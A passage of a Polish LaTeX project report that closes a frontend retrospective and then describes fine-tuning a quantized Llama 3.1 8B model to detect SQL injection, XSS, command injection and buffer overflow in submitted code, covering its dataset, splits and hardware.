    
\includegraphics[width=1\linewidth]{images/frontend/app/code_drag.png}
    \caption{Przeciąganie panelu bocznego - złapany za ikonę na prawej belce.}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\linewidth]{images/frontend/app/code_drop.png}
    \caption{Panel boczny z prawej belki przeniesiony do lewej belki.}
\end{figure}

\subsection{Podsumowanie i wnioski}
Projekt Figma znacząco usprawnił implementację komponentów i ich kompozycję w pełne ekrany. Najbardziej znaczącym problemem z projektem i implementacją frontendu były niesprecyzowane wymagania dotyczące tego, co sama aplikacja ma dokładnie robić i opieranie się wyłącznie na ogólnym opisie projektu. Poskutkowało to zaprojektowaniem kilku elementów, które ostatecznie okazały się niepotrzebne. Brak sprecyzowanych wymagań poskutkował również niezgodnością interfejsów wystawianych przez backend i wymaganych przez Frontend, co wymagało późniejszych poprawek w fazie integracji obu projektów. Ukończenie frontendu przed otrzymaniem pierwszych przykładowych zadań również spotkało się z problemem niedopasowania interfejsu frontendu i proponowanego szablonu zadań. Frontend przewidywał jedynie zadania programistyczne oparte o wiele plików, bez uwzględnienia zadań z krótką tekstową odpowiedzią, które zostały zaproponowane później. Problemy uogólnić można do nieujednoliconych interfejsów, braku precyzyjnych wymagań, braku komunikacji zespołowej, braku spotkań statusowych i niewykorzystania systemów do zarządzania zadaniami. Głównym wnioskiem wyciągniętym z projektu jest zdanie sobie sprawy z istoty komunikacji w zespole i tego, jak ważną rolę pełnią spotkania statusowe. Implementacja frontendu, jak i backendu, powinna nastąpić dopiero po otrzymaniu jednolitych wymagań biznesowych. Pozwoliłoby to uniknąć większości napotkanych problemów.

\newpage

\section{Model LLM - SCLA\_ML\_vuln\_detector}

\subsection{Wstęp}

Jednym z kluczowych aspektów projektu uzgodnionych w ramach organizacji był proces oraz implementacja modelu językowego uczenia maszynowego Large Language Model.
Ten model miał spełniać jedno krytyczne zadanie: detekcję oraz oznaczenie wybranych podatności cyberbezpieczeństwa w podanym na wejściu kodzie.

W założeniu, gdy użytkownik aplikacji ukończył zadanie polegające na pisaniu kodu oraz przesłał je do sprawdzenia, system wysyła zapytanie, zawierające 
kod użytkownika, do modelu LLM, który sprawdza i wykrywa czy kod posiada wrażliwość, której użytkownik ma nauczyć się unikać. Następnie, z odpowiedzią od 
modelu, system ma potwierdzić lub zaprzeczyć odpowiednie wykonanie zadania przez użytkownika.

Efektem prac nad modelem do detekcji jest \textbf{SCLA\_ML\_vuln\_detector}: względnie niewielki, efektywny, lokalnie wdrażany model LLM, 
wykorzystywany do wykrywania obecności oraz typu określonych podatności w kodzie źródłowym, przesłanym w zapytaniu. 

Model został zaprojektowany do identyfikacji następujących czterech częstych podatności:

\begin{itemize}
    \item SQL Injection;
    \item Cross-Site Scripting;
    \item Command Injection;
    \item Buffer Overflow.
\end{itemize}

W przypadku, gdy podany kod nie posiada wrażliwości - jest bezpieczny względem sprawdzanych podatności, model zwraca odpowiedź \texttt{No Vulnerability}.

Prace związane z aspektami stworzenia modelu, opisane poniżej, zostały zapisane i wykonane dzięki następującym plikom (w kolejności wykonania):
\begin{enumerate}
    \item \texttt{dataset\_preperation.py} - przygotowanie zbioru danych i zapis do formatu HuggingFace dataset;
    \item \texttt{data\_tokenization.py} - tokenizacja danych HF i zapis tokenizowanej wersji; 
    \item \texttt{model\_preparation.py} - dostrojenie podstawowego modelu za pomocą Low-Rank Adaptation; 
    \item \texttt{model\_merge\_and\_unload.py} - wgranie i zapis modelu do formatu GPT-Generated Unified Format;
    \item \texttt{model\_evaluation.py} - testowanie i ocena modelu.
\end{enumerate} 

Wszystkie aspekty, oraz decyzje podjęte w ramach uczenia modelu zostaną opisane w tym rozdziale.


\subsection{Stos technologiczny}

W celu stworzenia modelu \emph{SCLA\_ML\_vuln\_detector} wykorzystano następujące technologie oraz sprzęt:

\begin{table}[H]
    \centering
    \begin{tabular}{lll}
        \toprule
        \textbf{Komponent}          & \textbf{Narzędzie / Biblioteka}   & \textbf{Wersja / Specyfikacja} \\
        \midrule
        Model bazowy                & Meta-Llama-3.1-8B-Instruct        & Wariant 8-bitowy Unsloth \\
        Silnik dostrajania modelu   & Unsloth                           & 2026.5.8 \\
        Framework treningowy        & Transformers + TRL + Xformers     & 5.5.0 / 0.8.x \\
        Uczenie głębokie            & PyTorch                           & 2.11.0+cu128 \\
        Zestaw narzędzi CUDA        & NVIDIA CUDA                       & 12.8 \\
        Serwer inferencji           & Ollama                            & Najnowsza \\
        Konteneryzacja              & Docker + NVIDIA CTK               & Najnowsza \\
        Język prog. skryptów        & Python                            & 3.12 \\
        Procesor Graficzny          & NVIDIA RTX 5070                   & GB205, 12GB VRAM GDDR7 \\
        Procesor                    & AMD Ryzen 5 3600                  & 6 rdzeni, 12 wątków \\
        \bottomrule
    \end{tabular}
    \caption{Stos technologiczny wykorzystany w celu stworzenia \emph{SCLA\_ML\_vuln\_detector}.}
\end{table}


\subsection{Zbiór Danych}
\label{ssec:model_dataset}

W celu wyuczenia odpowiedniego modelu do detekcji podatności, należy posiadać odpowiednio dobrany zbiór danych do dostosowania
LLM do głównego zadania. W ramach projektu, wykorzystane zostały dwa główne źródła danych, zarówno treningowych, walidacyjnych oraz testowych,
które zostały opisane poniżej. Oba źródła zostały złączone, oraz podzielone na podgrupy z następującą proporcją:
\begin{itemize}
    \item 85\% - zbiór treningowy;
    \item 10\% - zbiór walidacyjny;
    \item 5\% - zbiór testowy.
\end{itemize} 

\subsubsection{Źródło danych - Vulnerability fix dataset}

Pierwszym źródłem danych treningowych jest \texttt{vulnerability\_fix\_dataset.csv}. Jest to zbiór danych stworzony i utrzymywany przez JIS College of Engineering (Indie),
zawierający sprawdzone rekordy posiadające kod wrażliwe na jedną z istniejących podatności oraz bezpieczny odpowiednik tego kodu. W kwestii złożoności, zbiór jest
prosty - zawieta wyłącznie 3 kolumny:
\begin{enumerate}
    \item \texttt{vulnerability\_type} - etykieta typu podatności;
    \item \texttt{vulnerable\_code} - kod źródłowy zawierający podatność;
    \item \texttt{fixed\_code} - poprawiona, bezpieczna wersja kodu źródłowego.
\end{enumerate}

Surowy zbiór danych zawiera 35\,000 rekordów rozłożonych na sześć wcześniej wspomnianych typów. Zbiór nie zawiera żadnych pustych danych, więc wykorzystano cały zbiór.
Poniżej znajduje się porównanie typów wraz z ich wkładem w zbiór danych:

\begin{table}[H]
    \centering
    \begin{tabular}{lrr}
        \toprule
        \textbf{Typ podatności}         & \textbf{Liczba rekordów} & \textbf{Procent całości} \\
        \midrule
        Cross-Site Scripting (XSS)      & 9\,377  & 26{,}8\% \\
        SQL Injection                   & 7\,297  & 20{,}8\% \\
        Command Injection               & 6\,947  & 19{,}8\% \\
        Path Traversal                  & 6\,500  & 18{,}6\% \\
        Buffer Overflow                 & 3\,157  & 9{,}0\%  \\
        Insecure Deserialization        & 1\,722  & 4{,}9\%  \\
        \midrule
        \textbf{Łącznie}                & \textbf{35\,000} & \textbf{100\%} \\
        \bottomrule
    \end{tabular}
    \caption{Rozkład klas podatności w surowym zbiorze danych.}
\end{table}
\label{tab:dataset_vuln_types}

Stosunek liczebności między klasą dominującą (XSS - 9\,377 przykładów) a klasą najmniej reprezentowaną (Insecure Deserialization - 1\,722 przykłady) wynosi ok. 5:1, 
co stanowiło istotne ryzyko wprowadzenia systematycznego błędu predykcji na korzyść klas większościowych. Z uwagi na tę zależność, która została potwierdzona 
w późniejszych testach (opisanych w \ref{ssec:model_evaluation}), podjęto decyzję o tymczasowym odrzuceniu podatności Insecure Deserialization z listy tematów aplikacji. 

Warto tu wspomnieć o jednej, kluczowej decyzji związanej ze zbiorem danych. Jak wspomniano wcześniej, każdy rekord zbioru zawiera zarówno przypadek pozytywny do wyuczenia LLM
(tj. kod zawierający podatność) oraz negatywny (tj. kod nie zawierający podatności). Z perspektywy uczenia maszynowego, próbki które zawierają na raz pozytywny i negatywny 
przypadek może skutkować brak rozgraniczenia tych przypadków w ostatecznym modelu - to oznacza, że model mógłby klasyfikować podany kod losowo, bez "wiedzy"
czy faktycznie znajduje się w nim podatność. Z tego powodu, na etapie wstępnego przygotowania danych do uczenia, podzielono cały zbiór \texttt{vulnerability\_fix\_dataset.csv} na 
dwie części: \emph{positives} i \emph{negatives}. Podzbiory te zawierały następujące informacje:
\begin{itemize}
    \item \textit{code (fixed/vulnerable)} - kod zawierający lub niezawierający podatności;
    \item \textit{label} - etykieta podatności, jedna z wymienionych w tabeli powyżej (\ref{tab:dataset_vuln_types}) typów podatności oraz \texttt{No vulnerability};
    \item \textit{is\_vulnerable} - wartość boolean zawierająca informacje o występowaniu błędu (True = podatny);
\end{itemize}

Efektem stworzenia tego podziału, oraz połączenia \emph{positives} i \emph{negatives} w jeden zbiór, jest ostateczny zbiór \emph{combined}, który zawiera 70 000 rekordów, 
z podziałem 50/50 między kodem wrażliwym a bezpiecznym.

Jak wczesniej wspomniano, zastosowano trójdzielny podział zbioru danych, który gwarantuje proporcjonalną reprezentację wszystkich typów w każdym zbiorze:

\begin{table}[H]
    \centering
    \begin{tabular}{lrr}
        \toprule
        \textbf{Zbiór}   & \textbf{Liczba rekordów} & \textbf{Procent} \\
        \midrule
        Treningowy          & 59\,500 & 85\% \\
        Walidacyjny         & 7\,035  & 10\% \\
        Testowy             & 3\,465  & 5\%  \\
        \midrule
        \textbf{Łącznie}    & \textbf{70\,000} & \textbf{100\%} \\
        \bottomrule
    \end{tabular}
    \caption{Rozmiary partycji zbioru danych}
\end{table}
\label{tab:dataset_split}

Podział danych został zrealizowany za pomocą podstawowej funkcji modułu \\ \verb|sklearn.model\_selection| - 
\texttt{train\_test\_split}, z parametrem \texttt{stratify} ustawionym na kolumnę etykiet. To ustawienie zapewnia, że żadna klasa nie była ani nadmiernie, ani
niedostatecznie reprezentowana w podzbiorach treningowym, walidacyjnym oraz testowym, w stosunku do jej udziału w całym zbiorze.

Podziały i transformacje danych opisane powyżej zostały zaprogramowane i później wykonane w skrypcie Python \texttt{1.dataset\_preparation.py}. 

% \subsubsection{Dane syntetyczne}
% TODO - continue here

% W celu przetestowania modelu w detekcji wybranych tematyk, poza wykorzystaniem podziału wspomnianego w ramach poprzedniej sekcji, 
% stworzono proste skrypty generujące syntetyczne kawałki kodu.

% Aby nie zmniejszać jakości oryginalnego zbioru danych syntetycznymi elementami, które wprowadzają tendencje i wzorce niechciane w elementach uczenia modelu,
% dane wygenerowane w ten sposób zostały wyłącznie użyte do sprawdzenia jakości modelu. Proces ten został opisany w sekcji \ref{ssec:model_evaluation}.



\subsection{Architektura Modelu}


\subsubsection{Wybór modelu bazowego}

Jako model bazowy wybrano \texttt{unsloth/Meta-Llama-3.1-8B-Instruct}. Decyzja ta została podjęta na podstawie następujących
kryteriów:

\begin{itemize}
    \item \textbf{Dostępność i dokumentacja}: Model \texttt{unsloth/Meta-Llama-3.1-8B-Instruct} jest dostępny publicznie do wykorzystania, z wieloma istniejącymi przykładami
            dostosowywania dostępnymi w publicznej sieci;
    
    \item \textbf{Liczba parametrów modelu}: 8 miliardów jest solidnym kompromisem między zdolnościami rozumowania modelu a wymaganą złośonością i wykonalnością sprzętową. 
    Modele mniejsze (1B / 3B parametrów) wykazywały niższą dokładność na klasach mniejszościowych podatności.
    Z uwagi na fakt, iż model ma wykonywać zadanie detekcji i klasyfikacji podanego kodu (oczywiście pomijając standardową analizę prompt'u w LLM), 
    uznano że 8B będzie wystarczającą liczbą parametrów; 

    \item \textbf{Wersja modelu}: Wybrano wersję \emph{Instruct} modelu ponad standardową, gdyż wersja \emph{Instruct} jest lepiej przystosowania do działania na 
            podstawie prompt'u w przeciwieństwie do interpretowania go i predykcji tekstu. Funkcjonalność ta jest znacznie istotna dla poprawnego spełnienia naszego
            modelu - działanie bliższe "agentic" jest pożądane;  

    \item \textbf{Wstępne trenowanie modelu}: Llama 3.1, podobnie jak inne ogólnodostępne, względnie duże modele LLM, był wstępnie trenowany na rozległym korpusie kodu
    źródłowego w wielu językach programowania, co zapewnia porządną bazową znajomość struktury i semantyki kodu. Jest to dodatkowy aspekt który skłonił do wyboru tej wersji.

\end{itemize}

\subsubsection{Kwantyzacja modelu}
\label{sssec:model_quantization}

Z uwagi na ograniczone zasoby sprzętowe zespołu, względnie do standardu uczenia LLM, zastosowano kwantyzację modelu, dokładniej \emph{4-bitową 
kwantyzację NormalFloat (NF4)}. Redukcja ta efektywnie zmniejszyła zapotrzebowanie modelu na pamięć z około 16~GB (FP16/BF16, oryginalne założenie)
do około 6-8~GB, umożliwiając jego uczenie i uruchomienie w obrębie wykorzystanej, 12~GB VRAM karty RTX 5070.

